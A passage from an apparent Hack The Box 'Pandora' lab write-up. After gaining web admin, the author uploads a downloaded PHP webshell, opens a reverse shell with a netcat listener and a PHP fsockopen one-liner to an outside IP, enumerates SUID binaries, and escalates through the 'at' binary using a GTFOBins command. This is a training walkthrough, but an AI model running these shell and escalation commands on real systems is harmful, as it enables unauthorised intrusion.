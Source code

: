 <img src="/assets/img/htb/pandora5.png" alt="admin">

#### Reverse shell

Now that we are admin, we can upload files. We just search for a working webshell like [this](https://raw.githubusercontent.com/JohnTroony/php-webshells/master/Collection/Simple-Webshell.php), download and upload to the system.

<img src="/assets/img/htb/pandora6.png" alt="webshell">

> This is going well...

Finally, I get a bash shell with `nc -lnvp <port>` listening, and executing on the web shell this: \
`php -r '$sock=fsockopen("10.10.16.40",9042);exec("/bin/bash -i <&3 >&3 2>&3");'`

Is time to look into binaries with suid set. We just do 
`find / -perm -u=s -type f 2>/dev/null` and we see **/usr/bin/at** on the list. So let's go to [gtfobins](https://gtfobins.github.io/#) and look for _at_.

We see with `echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null` we can get a unrestricted shell. Let's try...
